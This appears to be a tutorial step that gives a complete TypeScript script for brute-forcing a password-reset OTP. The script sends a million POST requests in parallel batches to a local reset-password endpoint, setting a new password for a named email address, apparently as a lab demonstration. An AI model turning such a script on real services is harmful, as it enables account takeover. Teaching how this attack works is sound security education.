 Create a new file `src/index.ts` and add the following code:

```tsx
import axios from "axios";

async function sendRequest(otp: number) {
  let data = JSON.stringify({
    "email": "harkirat@gmail.com",
    "otp": otp,
    "newPassword": "123123123"
  });

  let config = {
    method: 'post',
    maxBodyLength: Infinity,
    url: '<http://localhost:3000/reset-password>',
    headers: {
      'sec-ch-ua': '"Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"',
      'Next-Router-State-Tree': '%5B%22%22%2C%7B%22children%22%3A%5B%22admin%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D',
      'sec-ch-ua-mobile': '?0',
      'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36',
      'Accept': 'text/x-component',
      'Referer': '<http://localhost:3000/admin>',
      'Next-Action': 'a221b071140e55563e91a3226c508cb229c121f6',
      'sec-ch-ua-platform': '"macOS"',
      'Content-Type': 'application/json'
    },
    data: data
  };

  try {
    await axios.request(config)
    console.log("done for " + otp);
  } catch(e) {
    // Ignore errors
  }
}

async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) {
      promises.push(sendRequest(i + j))
    }
    await Promise.all(promises);
  }
}

main()
```

